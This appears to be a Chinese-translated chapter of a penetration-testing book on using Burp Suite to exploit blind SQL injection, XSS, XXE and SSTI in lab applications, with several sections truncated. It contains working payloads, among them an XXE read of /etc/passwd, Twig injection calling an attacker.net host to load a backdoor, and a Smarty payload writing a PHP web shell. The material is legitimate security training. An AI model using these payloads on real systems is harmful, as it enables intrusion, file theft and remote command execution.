






# 八、使用 BurpSuite 利用漏洞——第一部分

Burp Suite 是检测漏洞的优秀工具。正如我们在前几章中所看到的，它有各种各样的工具和选项，当然还有一些扩展，可以帮助我们在查找应用中的错误时更加准确和高效。然而，Burp Suite 还提供了一些选项，可以帮助我们利用漏洞，生成关于漏洞利用的证据，并在需要时随时复制漏洞利用。

在本章中，我们将检查如何使用 Burp Suite 的选项以及某些情况下的工具和扩展来利用不同类型的漏洞。我们将在本章中讨论以下主题：

*   通过基于盲布尔运算的数据过滤。。。

# 通过基于盲布尔的 SQL 注入进行数据过滤

SQL 注入是一种基于输入验证错误的漏洞，允许恶意用户向应用中插入意外的 SQL 语句以对其执行不同的操作。例如，提取信息、删除数据或修改原始语句。

SQL 注入有三种类型，如下所示：

*   **带内 SQL 注入**：这种类型的 SQL 注入具有可以使用发送语句的相同通道进行分析的特点。这意味着由**数据库管理系统**（**DBMS**生成的响应在同一分析应用中接收。
*   **推断**：这种类型的 SQL 注入与前一种不同，因为不可能在应用的响应中看到错误或结果。我们需要推断应用后端发生了什么，或者使用外部通道获取信息。同时，进入推理的 SQL 注入又进一步分为两种类型：
    *   **基于布尔的盲 SQL 注入**：在这种类型的 SQL 注入中，语句的重点是将布尔值更改到应用中，以获得不同的响应。即使 SQL 注入结果没有直接显示，HTTP 响应内容也可以更改以推断结果。
    *   **基于时间的盲 SQL 注入**：此推断 SQL 注入取决于数据库服务器生成响应所经过的时间。随着时间的变化，可以推断 SQL 注入是否成功。为此，恶意用户插入 DBMS 中包含的函数，以确定后端发生了什么。
*   **带外 SQL 注入**：在这种类型的 SQL 注入中，无法使用同一通道查看错误响应或直接推断结果。因此，我们需要使用外部通道来了解 SQL 注入是否成功。例如，使用第二个数据存储来接收结果，例如 DNS 解析来推断请求中经过的时间，这在应用中是不可能看到的。

我们将了解如何使用 BurpSuite来利用基于布尔值的 SQL 注入漏洞。

# 脆弱性

分析以下 PHP 代码片段：

```
ini_set('display_errors', 0); 
$connection = $GLOBALS['connection']; 

$id = ($_POST['id']); 

$query_statement = "SELECT * from polls where id = ".$id; 
$result = $conection->query($query_statement); 
if ($result->num_rows > 0 ){ 
   while($row = $result->fetch_assoc()){ 
         echo "<p class=''>Thank you for your response!</p>"; 
   } 
} 
```

此代码使用`$id`变量（一个数字）将信息传递给一个查询，该查询在`SELECT`语句中直接在数据库上执行。在`WHERE`表达式中使用`$id`变量来查找用户传递的确切`$id`变量，并且仅根据变量`$id`变量中的数字显示过滤后的信息。

最重要的是。。。

# 剥削

假设这个数据库只有 10 个寄存器，因此如果用户将数字`1`作为值传递给`$id`变量，应用将返回第一个寄存器。当用户输入号码`10`时，应用返回最后一个寄存器。然而，当用户输入值`11`时，应用没有要显示的寄存器，但它没有显示任何错误，向用户解释它没有显示任何内容，因为它没有更多的内容要显示。输出没有任何作用。

由于应用未验证输入到`$id`变量中的值，用户可以输入任何类型的信息。例如，`'1`或`1=1--`字符串，这是用于检测 SQL 注入缺陷的常用字符串。但是，正如我们所说，应用不会显示错误。

忘记了应用没有显示错误，为什么可以输入字符串，例如`'1`或`1=1--`？我们将在这里给出的流程中看到：

1.  当用户输入`'1`或`1=1--`字符串时，该字符串被转换为真值，应用将其解释为数字`1`，因此，应用返回第一个寄存器。
2.  如果我们从 1 到 10 传递一个值，会发生什么？如果我们将数字`11`传递给`$id`变量，`WHERE`条件将尝试查找第十一个寄存器，但由于缺少该寄存器，`$query_statement`变量本身不会存储寄存器。当 PHP 代码中的以下`if`语句验证`$query_statement`变量中存储的寄存器时，应用将失败。
3.  我们知道，当应用收到一个介于 1 到 10 之间的数字时，应用将正常工作；而且，我们知道，当结果是 1 到 10 之间的数字时，我们可以传递任意语句。记住这一点，如果我们传递`11-1`值，它是有效的。
4.  *11-1*的结果为*10；*因此，当`WHERE`条件验证`$id`值时，它将有一个数字`10`，因此应用将显示最后一个值。这是利用此漏洞的关键！

现在，使用更复杂的语句，如下所示：

```
11-(select case when '0'='0' then 1 else 0 end) 
```

此语句生成一个最终数字`10`作为`$id`的值；现在，也要考虑下面的陈述：

```
11- (select case when 'a'=(substring((select 'abcd'),1,1)) then 1 else 0 end) 
```

前面的语句产生相同的结果。因此，它们都可以被接受，由后端执行，而不显示结果。另外，如果我们生成了一条已执行的语句，但最终值不同于 1 到 10，则不会显示错误。

以该语句为基础，我们可以使用 Burp Suite 在下一节中执行数据过滤。

# 使用 BurpSuite执行渗出

执行以下步骤，使用 Burp Suite 执行数据过滤：

1.  首先，将 Burp Suite 配置为拦截应用发出的请求，并在发送`$id`值的请求发出时停止，使用 Proxy 选项卡中的`Intercept is on`选项，如下图所示：


2.  请求停止后，右键单击该请求，然后选择发送到入侵者选项，如下所示：



默认情况下，Burp Suite 为请求中检测到的每个变量创建通配符，并在。。。

# 使用 SQL 注入执行 OS 命令

SQL 注入攻击最严重的影响之一是操作系统级别的命令执行。大多数情况下，如果用户执行系统命令，则会导致整个服务器和应用受损。

# 脆弱性

SQL 注入中的命令注入漏洞通常是因为 DBMS 具有存储过程或允许的本机选项，该选项直接与操作系统交互。例如，SQL Server 上的`xp_cmdshell`，或者用 Java 为 Oracle 开发的特殊存储过程。

在某些情况下，应用还可能存储由查询提取并执行的数据库字符串；因此，如果我们可以更新数据库，我们就可以向服务器中注入命令。然而，正如我提到的，这不是一个常见的情况。

一旦检测到与命令注入相关的漏洞，我们就可以使用 BurpSuite对其进行攻击。例如，让我们检查来自应用的以下请求：

这个请求是。。。

# 执行带外命令注入

正如我们多次提到的，BurpSuite最重要的功能是自动化功能。正如我们将在本书后面探讨的那样，我们可以创建自己的插件来扩展 BurpSuite，或者我们可以找到社区所做的许多扩展。

有一个名为**炮击**的扩展，主要用于创建用于命令注入攻击的有效负载列表。我们将在下一节中更详细地了解这一点。

# 炮击

SHELLING 是一个在 BAPS 商店中不可用的插件，因此您需要去 GitHub 获取它[https://github.com/ewilded/shelling](https://github.com/ewilded/shelling) 。下载`.jar`文件并使用 Burp Suite 中的 Extender 选项进行安装：

1.  要执行此操作，请单击 Extender 选项卡，然后单击 Manual install（手动安装）按钮。Burp Suite 将启动一个窗口来选择`.jar`文件。由于 SHELLING 未包含在官方扩展中，Burp Suite 将启动以下警告消息以确认您要安装它：


2.  安装后，您将不会在 Burp Suite 实例上看到任何不同。这是因为炮击不会修改。。。

# 使用 XSS 窃取会话凭据

XSS 是一个可用于多种目的的漏洞。它会启动一个带有消息的弹出窗口，以控制受 XSS 影响的计算机。常见的攻击是使用 XSS 窃取凭据或会话。

# 利用脆弱性

假设我们有以下易受攻击的请求，`name`参数易受 XSS 攻击：

```
GET /dvwa/vulnerabilities/xss_r/?name=cosa HTTP/1.1 
Host: 192.168.1.72 
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8 
Accept-Language: en-US,en;q=0.5 
Accept-Encoding: gzip, deflate 
Referer: http://192.168.1.72/dvwa/vulnerabilities/xss_r/ 
Connection: close 
Cookie: security=low; PHPSESSID=3nradmnli4kg61llf291t9ktn1 
Upgrade-Insecure-Requests: 1 
```

您可以使用 BurpSuite的代理捕捉它，并使用公共测试字符串修改参数值，如下所示：

```
<script>alert(1)</script> 
```

退出拦截。。。

# 使用 XSS 控制用户的浏览器

正如我前面提到的，XSS 的最大影响可能是控制受影响的用户。

实现这一点的方法本质上取决于 web 浏览器允许使用 JavaScript 或其他客户端交互执行的操作，恶意用户可以在 XSS 中传递这些操作。事实上，没有必要直接执行 JavaScript。例如，可以利用 Internet Explorer 中执行 ActiveX 控件的 XSS 进行攻击，如下所示：

```
<script> 
   var o=new ActiveXObject("WScript.shell"); 
   o.Run("program.exe") 
</script> 
```

此代码将在远程计算机中启动另一个程序，因此有可能在客户端执行任何类型的攻击。

# 使用 XXE 漏洞提取服务器文件

XXE 是一个漏洞，影响解析 XML 的应用，并在解析引用 XXE 的 XML 时出错。

# 利用脆弱性

假设我们有一个易受 XXE 漏洞影响的应用，其中我们有一个易受攻击的请求，如以下屏幕截图所示：


此处，`xml`参数易受 XXE 和表头的攻击，如下图所示：

```
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8 
```

这意味着这是一个接受 XML 作为输入的请求。因此，我们将使用 BurpSuite的代理修改输入，以查看应用是否接受我们的测试字符串。为此，我们将使用以下输入：

```
<!DOCTYPE foo [ <!ELEMENT  ANY> <!ENTITY bar "cosa">  <!ENTITY barxee "&amp;bar; XEE" > ]> <foo> &amp;barxee; </foo> 
```

如果接受，应用将显示我们在 XML 输入中传递的消息。因此，使用此输入修改`xml`参数，并单击 Intercept is on 发送请求。结果将显示在 HTML 网站中，如下所示：

```
</div> 

<div class="container"> 

Hello   

cosa 
      <footer> 
        <p>&amp;copy; PentesterLab 2013</p> 
      </footer> 
```

现在，我们知道该漏洞是可利用的，所以我们将发送一个字符串以从服务器提取文件。要使用 XXE 攻击提取文件，我们需要获得有关应用所在服务器的更多信息，至少是操作系统的信息。使用响应中包含的标题，可以知道操作系统是什么，如下所示：

```
HTTP/1.1 200 OK 
Date: Sat, 16 Feb 2019 21:17:10 GMT 
Server: Apache/2.2.16 (Debian) 
X-Powered-By: PHP/5.3.3-7+squeeze15 
X-XSS-Protection: 0 
Vary: Accept-Encoding 
Content-Length: 1895 
Connection: close 
Content-Type: text/html 
X-Pad: avoid browser bug 
```

系统管理员可以修改此标题，如果您有疑问，可以使用网络工具，如 Nmap（[www.Nmap.org](http://www.nmap.org)确认。

在本例中，服务器是 DebianLinux。因此，我们需要用于攻击的测试字符串必须符合类 Unix 文件系统的要求，如下所示：

```
<!DOCTYPE foo  [<!ENTITY bar SYSTEM "file:///etc/passwd">]> <foo>&amp;bar;</foo> 
```

使用这个，我们将检索`/etc/passwd`文件，在某些情况下，该文件作为密码散列存储在 Linux 系统中。因此，将原始请求发送到 Repeater tool，用此字符串修改`xml`参数，点击 Go，如下图所示：


目前，并非所有 Linux 系统都使用`/etc/passwd`文件来存储散列；在过去，作为一名 pentester，呈现与前一张类似的屏幕截图是显示漏洞风险的完美证据。然而，现在有很多 Linux 系统将哈希存储在`/etc/shadow`中，这是加密的，或者在许多情况下，限制了服务器用户对文件系统的访问。

根据应用的上下文，您需要确定要提取哪些文件。例如，作为提示，从 web 服务器的根目录提取文件以访问源代码非常有用。

# 使用 XXE 和 BurpSuite协作器执行数据提取

Burp Suite collaborator 是一种服务，主要用于在应用尝试与外部服务交互时检测漏洞。Burp Suite 分析与外部系统的交互并检测异常行为。为了分析应用，Burp Suite collaborator 向应用发送输入或有效负载，并等待响应。

因此，在本例中，BurpSuite在服务器上工作，应用在服务器上使用公共服务（如 DNS、SMTP 或 HTTP）进行交互。

# 使用 BurpSuite攻击该漏洞

在主仪表板选项卡中打开 Burp Suite，然后单击新的扫描选项，如下面的屏幕截图所示。请记住，这些选项仅在 Burp Suite Professional 中可用，在社区版中不可用：



使用扫描仪时，Burp Suite 会测试应用是否存在漏洞。在这里，您可以修改有关扫描仪如何完成其工作的选项，还可以配置自动登录的凭据。这对于应用的大多数部分都非常重要，因为大多数应用都具有认证控制。为了利用 XXE，我们将对我们拥有的 URL 进行简单扫描。单击确定按钮后，扫描开始。

扫描完成后，Burp Suite 将向我们显示在 URL 中检测到的 XXE，如以下屏幕截图所示：


在前面的列表中，我们可以看到一些问题，包括短语外部服务交互，后面是所使用的协议。如果我们选择其中一个问题，Burp Suite 将向我们显示一个名为 Collaborator interaction 的新选项卡，如以下屏幕截图所示：



Burp Suite collaborator 允许用户配置自己的服务器，但如果您未配置服务器，则默认情况下，collaborator 使用 Portswigger 的服务器。通过分析请求，我们可以检测到协作者发送了以下参数：

```
GET /xml/example1.php?xml=%3c!DOCTYPE%20test%20[%3c!ENTITY%20%25%20j27pf%20SYSTEM%20%22http%3a%2f%2fdgxknwuc7fqeysa0w53lpzt2wt2mqceb22psdh.burpcollaborator.net%22%3e%25j27pf%3b%20]%3e%3ctest%3ehacker%3c%2ftest%3e HTTP/1.1 
Host: 192.168.1.66 
Accept-Encoding: gzip, deflate 
Accept: */* 
Accept-Language: en-US,en-GB;q=0.9,en;q=0.8 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36 
Connection: close 
Cache-Control: max-age=0 
```

答复如下：

```
    <div class="container"> 
Hello   

Warning: simplexml_load_string(): http://dgxknwuc7fqeysa0w53lpzt2wt2mqceb22psdh.burpcollaborator.net:1: parser error : internal error in /var/www/xml/example1.php on line 4 

Warning: simplexml_load_string(): <html><body>zz4z85vbr0640exz8e6wvvzjlgigrgjfigz</body></html> in /var/www/xml/example1.php on line 4 

Warning: simplexml_load_string(): ^ in /var/www/xml/example1.php on line 4 

Warning: simplexml_load_string(): http://dgxknwuc7fqeysa0w53lpzt2wt2mqceb22psdh.burpcollaborator.net:1: parser error : DOCTYPE improperly terminated in /var/www/xml/example1.php on line 4 

Warning: simplexml_load_string(): <html><body>zz4z85vbr0640exz8e6wvvzjlgigrgjfigz</body></html> in /var/www/xml/example1.php on line 4 

Warning: simplexml_load_string(): ^ in /var/www/xml/example1.php on line 4 

Warning: simplexml_load_string(): http://dgxknwuc7fqeysa0w53lpzt2wt2mqceb22psdh.burpcollaborator.net:1: parser error : Start tag expected, '<' not found in /var/www/xml/example1.php on line 4 

Warning: simplexml_load_string(): <html><body>zz4z85vbr0640exz8e6wvvzjlgigrgjfigz</body></html> in /var/www/xml/example1.php on line 4 

Warning: simplexml_load_string():  ^ in /var/www/xml/example1.php on line 4 
      <footer> 
        <p>&amp;copy; PentesterLab 2013</p> 
      </footer> 
```

协作者使用字符串来识别漏洞。如果我们查看协作者的请求和响应，而不是 HTTP 请求，则情况有所不同。我们可以看到使用的字符串如下所示：



阅读响应中的 HTML 代码，我们可以找到以下字符串：

```
Warning: simplexml_load_string(): <html><body>zz4z85vbr0640exz8e6wvvzjlgigrgjfigz</body></html> in /var/www/xml/example1.php on line 4 
```

# 利用 SSTI 漏洞执行服务器命令

SSTI 是一个漏洞，当应用使用框架来显示如何向用户呈现该框架时会出现该漏洞。这些模板是输入，如果这些输入没有正确验证，它们可以更改行为。

这些漏洞在很大程度上取决于开发人员创建应用所使用的技术，因此并非所有情况都是相同的，作为 pentester，您需要识别这些差异及其对如何利用漏洞的影响。

# 使用 BurpSuite攻击该漏洞

假设您有一个易受 SSTI 攻击的应用正在使用 Twig。小枝（[https://twig.symfony.com/](https://twig.symfony.com/) 是用 PHP 开发的模板引擎。

我们可以通过源代码检测引擎的使用情况。考虑下面的代码片段：

```
var greet = 'Hello $name'; 
<ul> 
<% for(var i=0; i<data.length; i++) 
{%> 
<li><%= data[i] %></li> 
<% } 
%> 
</ul> 
<div> 
<p> Welcome, {{ username }} </p> 
</div> 
```

在这里，我们可以看到应用正在等待数据向用户呈现最终的网站。当 PHP 读取模板时，它会执行其中包含的所有内容。例如，在 2015 年，James Kettle 发布了一个漏洞，允许使用以下字符串在细枝中注入后门：

```
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}} 
```

按照相同的思路，可以使用以下字符串执行任何命令，甚至获取 shell：

```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}} 
uid=1000(k) gid=1000(k) groups=1000(k),10(wheel) 
```

这是因为，在代码中，可以插入任何 PHP 函数，而无需验证。Kettle 显示了源代码中的漏洞，如下所示：

```
public function getFilter($name){ 
[snip] 
   foreach ($this->filterCallbacks as $callback) { 
         if (false !== $filter = call_user_func($callback, $name)) { 
               return $filter; 
         } 
   } 

   return false; 
} 
public function registerUndefinedFilterCallback($callable){ 
   $this->filterCallbacks[] = $callable; 
} 
```

基本上，代码接受任何类型的 PHP 函数，因此，在字符串中，Kettle 输入了`exec()`函数，直接向服务器执行命令。

细枝不是唯一有问题的引擎。Kettle 研究的其他引擎包括 Smarty，另一个 PHP 引擎，理论上不允许直接使用`system()`函数。然而，Ketter 发现它允许调用其他类中的方法。

易受攻击的代码段显示在以下屏幕截图中：



在这段代码中，我们可以看到，`getStreamVariable()`方法可能容易读取任何具有服务器权限的文件。此外，我们还可以调用其他方法。

因此，为了在服务器上执行命令，Ketter 向我们展示了以下测试字符串：

```
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ? 
>",self::clearConfig())} 
```

我们可以在`$_GET`变量中添加命令。

在 Burp Suite 中，我们可以为不同的模板引擎添加这些测试字符串作为列表，然后使用入侵者工具中的有效负载选项发起攻击，如以下屏幕截图所示：



# 总结

在本章中，我们学习了 Burp Suite 用来利用不同类型漏洞的常规工具。特别是，我们探索了盲 SQL 注入、OS 命令注入、利用 XSS、利用 XSS 窃取会话、利用 XSS 控制 web 浏览器、利用 XXE、利用 XXE 从服务器提取文件以及通过模板引擎利用 SSTI。

在下一章中，我们将利用其他类型的漏洞，展示 Burp Suite 中的更多选项和功能。